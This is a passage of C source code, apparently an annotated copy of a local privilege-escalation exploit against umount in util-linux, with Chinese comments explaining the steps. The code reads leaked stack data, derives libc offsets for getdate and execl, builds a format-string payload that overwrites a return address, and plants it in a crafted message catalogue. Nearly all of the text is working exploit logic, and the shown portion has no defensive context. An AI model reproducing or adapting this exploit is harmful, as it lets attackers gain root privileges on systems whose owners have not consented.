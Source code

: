 ```c
            moveLength+=sizeof(long)*2;
            stackDataBytes+=sizeof(long);
// See if we reached end of stack dump already.
            if(stackDataBytes==sizeof(stackData))
              break;
          }
          if(stackDataBytes!=sizeof(stackData))		// 重复 case 1 直到此条件不成立，即所有数据已经读完
            break;

// All data read, use it to prepare the content for the next phase.
          fprintf(stderr, "Stack content received, calculating next phase\n");

          int *exploitOffsets=(int*)osReleaseExploitData[3];	// 从读到的栈数据中获得各种有用的地址

// This is the address, where source Pointer is pointing to.
          void *sourcePointerTarget=((void**)stackData)[exploitOffsets[ED_STACK_OFFSET_ARGV]];
// This is the stack address source for the target pointer.
          void *sourcePointerLocation=sourcePointerTarget-0xd0;

          void *targetPointerTarget=((void**)stackData)[exploitOffsets[ED_STACK_OFFSET_ARG0]];
// This is the stack address of the libc start function return
// pointer.
          void *libcStartFunctionReturnAddressSource=sourcePointerLocation-0x10;
          fprintf(stderr, "Found source address location %p pointing to target address %p with value %p, libc offset is %p\n",
              sourcePointerLocation, sourcePointerTarget,
              targetPointerTarget, libcStartFunctionReturnAddressSource);
// So the libcStartFunctionReturnAddressSource is the lowest address
// to manipulate, targetPointerTarget+...

          void *libcStartFunctionAddress=((void**)stackData)[exploitOffsets[ED_STACK_OFFSET_ARGV]-2];
          void *stackWriteData[]={
              libcStartFunctionAddress+exploitOffsets[ED_LIBC_GETDATE_DELTA],
              libcStartFunctionAddress+exploitOffsets[ED_LIBC_EXECL_DELTA]
          };
          fprintf(stderr, "Changing return address from %p to %p, %p\n",
              libcStartFunctionAddress, stackWriteData[0],
              stackWriteData[1]);
          escalationPhase++;	// 阶段加 1 => case 2

          char *escalationString=(char*)malloc(1024);		// 将下一阶段的格式化字符串写入到另一个 util-linux.mo 中
          createStackWriteFormatString(
              escalationString, 1024,
              exploitOffsets[ED_STACK_OFFSET_ARGV]+1, // Stack position of argv pointer argument for fprintf
              sourcePointerTarget, // Base value to write
              exploitOffsets[ED_STACK_OFFSET_ARG0]+1, // Stack position of argv[0] pointer ...
              libcStartFunctionReturnAddressSource,
              (unsigned short*)stackWriteData,
              sizeof(stackWriteData)/sizeof(unsigned short)
          );
          fprintf(stderr, "Using escalation string %s", escalationString);

          result=writeMessageCatalogue(
              secondPhaseCataloguePathname,
              (char*[]){
                  "%s: mountpoint not found",
                  "%s: not mounted",
                  "%s: target is busy\n        (In some cases useful info about processes that\n         use the device is found by lsof(8) or fuser(1).)"
              },
              (char*[]){
```